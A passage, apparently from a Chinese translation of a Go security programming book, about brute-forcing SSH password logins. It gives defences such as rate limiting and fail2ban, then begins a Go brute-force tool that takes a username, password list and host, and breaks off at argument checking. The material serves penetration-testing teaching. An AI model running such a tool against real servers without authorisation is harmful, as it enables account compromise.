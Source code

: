 ```go
      ) 

      // If max threads reached, wait for one to finish before  
      //continuing 
      if numThreads >= maxThreads { 
         <-doneChannel 
         numThreads -= 1 
      } 
   } 

   // Wait for all threads before repeating and fetching a new batch 
   for numThreads > 0 { 
      <-doneChannel 
      numThreads -= 1 
   } 
} 
```

# 暴力破解 SSH

安全外壳或 SSH 支持几种身份验证机制。如果服务器只支持公钥身份验证，那么暴力破解几乎是徒劳的。这个例子只会讨论 SSH 的密码身份验证。

为了防止这样的攻击，实施速率限制或使用类似 fail2ban 的工具，在检测到一定数量的登录失败尝试时，锁定帐户一段时间。还要禁用 root 远程登录。有些人喜欢将 SSH 放在非标准端口上，但最终放在高端口号的非受限端口上，比如`2222`，这不是一个好主意。如果您使用高端口号的非特权端口，另一个低特权用户可能会劫持该端口，并在其位置上启动自己的服务。如果要更改端口，将 SSH 守护程序放在低于`1024`的端口上。

这种攻击显然在日志中很吵闹，容易被检测到，并且被 fail2ban 等工具阻止。但如果您正在进行渗透测试，检查速率限制或帐户锁定是否存在可以作为一种快速方法。如果没有配置速率限制或临时帐户锁定，暴力破解和 DDoS 是潜在的风险。

运行此程序需要从[golang.org](http://www.golang.org)获取一个 SSH 包。您可以使用以下命令获取它：

```go
go get golang.org/x/crypto/ssh
```

安装所需的`ssh`包后，可以运行以下示例：

```go
package main 

import ( 
   "bufio" 
   "fmt" 
   "log" 
   "os" 

   "golang.org/x/crypto/ssh" 
) 

func printUsage() { 
   fmt.Println(os.Args[0] + ` - Brute force SSH Password 

Passwords should be separated by newlines. 
URL should include hostname or ip with port number separated by colon 

Usage: 
  ` + os.Args[0] + ` <username> <pwlistfile> <url:port> 

Example: 
  ` + os.Args[0] + ` root passwords.txt example.com:22 
`) 
} 

func checkArgs() (string, string, string) { 
   if len(os.Args) != 4 { 
      log.Println("Incorrect number of arguments.") 
```